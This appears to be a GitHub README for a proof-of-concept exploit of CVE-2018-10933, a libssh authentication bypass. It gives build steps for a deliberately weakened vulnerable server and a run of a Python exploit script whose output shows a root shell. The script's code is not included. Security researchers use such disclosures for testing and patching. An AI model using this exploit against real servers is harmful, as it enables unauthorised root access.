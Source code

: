# CVE-2018-10933 - Server-side Auth. Bypass
This is a simple Proof of Concept (PoC) to demonstrate successful
exploitation of the authentication-bypass vulnerability as found in
the server-side code of libssh 0.6 and later. See [security advisory for CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)
for more information.

## Vulnerable Server POC
In order to get a full interactive shell, the server code must somehow allow
several SSH requests such as `shell channel request`. Most production-use
implementations disallow them by checking the internal session's authentication
state. If the programmer insufficiently checked the auth. state, the
exploitation may be successful.

The [CVE-2018-10933-server.patch](CVE-2018-10933-server.patch) patch removes
checks for the authentication states in the `ssh_server_fork.c` example shipped
with libssh-0.7.4. See below for the patching instructions.

### Building the vulnerable server
```
$ wget https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz
$ tar -xvf libssh-0.7.4.tar.xz
$ cd libssh-0.7.4/
$ cd examples/
$ patch -p0 < CVE-2018-10933-server.patch
$ cd ..
$ mkdir -p build
$ cmake ..
$ make
```

### Running the vulnerable server
Here you're running the vulnerable SSH server on localhost, port tcp/2222:
```
$ cd examples/
$ sudo ./ssh_server_fork -p 2222 127.0.0.1
```

## Exploit
This repository includes a simple [exploit](CVE-2018-10933-SHELL-POC.py) code
written in Python that allow to pass commands directly to the shell's of a
vulnerable libssh server (see above for a vulnerable server implementation).
```
$ git clone https://github.com/e3prom/miscsec.git
$ cd CVE-2018-10933
$ python CVE-2018-10933-SHELL-POC.py --verbose -p 2222 10.240.0.169
[*] Type quit to exit this command prompt.

$ id
#
id
uid=0(root) gid=0(root) groups=0(root),999(docker)
#
$ quit
```

## Credits
* The vulnerability has been discovery by Peter Winter-Smith of NCC Group.
* [CVE-2018-10933: libssh: authentication bypass in server code](https://seclists.org/oss-sec/2018/q4/55)
* [SoledaD208's CVE-2018-10933 very simple POC](https://github.com/SoledaD208/CVE-2018-10933)
